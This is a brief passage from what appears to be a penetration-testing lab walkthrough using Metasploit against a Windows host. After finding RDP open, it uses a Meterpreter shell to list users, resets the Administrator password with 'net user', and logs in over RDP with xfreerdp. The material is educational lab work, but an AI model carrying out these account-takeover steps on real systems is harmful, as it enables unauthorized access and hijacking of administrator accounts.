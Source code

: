 ```bash
3389/tcp open  ms-wbt-server
```

- To access RDP, login credentials are necessary

```bash
sessions
sessions 1
shell
net users
	Administrator Guest
```

- Change the `Administrator` user's password (no recommended in a real-world system)


> 📌 *During a standard Pentest, create another user account, add it to the Administrators group and utilize that one.*

```bash
net user administrator p4ssword_12344321
exit
```

Legitimate credentials are now: `administrator`:`p4ssword_12344321`

- In a new Terminal TAB

```bash
xfreerdp /u:administrator /p:p4ssword_12344321 /v:10.2.21.205
```

![xfreerdp](3-metasploitassets/image-20230419230109945.png)
